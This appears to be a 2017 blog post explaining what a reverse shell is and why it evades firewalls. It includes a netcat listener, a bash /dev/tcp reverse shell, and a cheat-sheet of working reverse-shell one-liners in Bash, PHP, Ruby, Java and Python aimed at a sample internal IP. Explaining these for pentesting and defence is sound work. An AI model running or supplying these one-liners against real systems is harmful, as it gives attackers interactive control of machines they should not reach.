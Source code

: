 ```yaml
---
layout: single
title: '2017-08-28, reverse shell'

---
```


# Whats a reverse shell? It’s that turtle that you jump on and it bounces off a wall and comes back at you right?
Not quite but, you aren’t alone in ignorance. It is surprising that the number of folks that don’t actually know what a reverse shell is. Long story short, it is when one computer connects to another computer but the initiating computer forwards their shell to the destination. It is commonplace that a reverse shell happens during an attack or as part of a pentest. They are scary attacks because it gives an attacker an interactive shell on a machine that they should not have had access to inside of the “hardened” area.
Lets break down how this works. 
First there is a machine listening somewhere on a specific tcp port. In this case using netcat. 
`nc -vlp 80`  vlp?  
-v, --verbose Set verbosity level (can be used several times);  
-l, --listen Bind and listen for incoming connections; 
-p, --source-port port Specify source port to use 
(http://man7.org/linux/man-pages/man1/ncat.1.html) 
Simple enough, just a listener on a specific port. Second, we will need another machine, the victim, to connect to this machine and then forward the session to it. There are countless ways to setup this connection depending what resources are available. This is how to do it with bash
`bash -i >& /dev/tcp/192.168.1.142/80 0>&1`
The command `bash -i >& `invokes bash with an "interactive" option. Then `/dev/tcp/192.168.1.142/7023` redirects that session to a tcp socket via device file. 
Finally `0>&1` Takes standard output, and connects it to standard input.
It turns out linux has built a /dev/tcp device file. While powerful and useful this file can be extremely dangerous when used in this way. This built in device file lets bash connect directly to any ip and any port out there. This also works well if you want to confirm a port is open, or check the time. 
$ echo > /dev/tcp/192.168.1.142/22 
-bash: connect: Connection refused. ( yey no ssh is open !)
$ echo > /dev/tcp/www.google.com/80
$ cat </dev/tcp/time.nist.gov/13
57991 17-08-26 13:39:06 50 0 0   0.0 UTC(NIST) 

http://www.linuxjournal.com/content/more-using-bashs-built-devtcp-file-tcpip

What’s so scary about this? Well, netcat can be listening on any port, and in the example it listened on port 80. This means that the connection and all the traffic flowing through that pipe is going to look like regular http traffic and if that port is open on one of your hosts (as it usually is) then it doesn’t matter what kind of firewall you have, it isn’t going to stop a reverse shell from owning you. Subsequently it doesn’t stop a machine from inside your firewall that has access to the internet **cough**cough laptops, from using the allowable port, and then pivoting to anything that can be accessible on the internal lan.
Reverse shells are really fun to play with especially if you have something like a rubber ducky or a bash bunny. That lets you walk up to an unsecured laptop (that you have legitimate access to of course) and snag a shell. Then wait for your victim to come back and…
$ say “im sorry dave i can’t let you do that, you should have locked your computer"
$ sudo reboot
https://hakshop.com/products/bash-bunny
https://hakshop.com/products/usb-rubber-ducky-deluxe

Finally, here are examples of allowing a shell through in a whole bunch of different languages, because well not everything has bash, just most of the things. 
Bash
exec 5<>/dev/tcp/192.168.1.142/80
cat <&5 | while read line; do $line 2>&5 >&5; done 
# or:
while read line 0<&5; do $line 2>&5 >&5; done
PHP
php -r ‘$sock=fsockopen(“192.168.1.142”,80);exec(“/bin/sh -i <&3 >&3 2>&3”);’
(Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)
RUBY
ruby -rsocket -e’f=TCPSocket.open(“192.168.1.142”,80).to_i;exec sprintf(“/bin/sh -i <&%d >&%d 2>&%d”,f,f,f)’
JAVA
r = Runtime.getRuntime()
p = r.exec([“/bin/bash”,”-c”,”exec 5<>/dev/tcp/192.168.1.142/80;cat <&5 | while read line; do \$line 2>&5 >&5; done”] as String[])
p.waitFor()
PYTHON
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.142”,80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’


http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://highon.coffee/blog/reverse-shell-cheat-sheet/
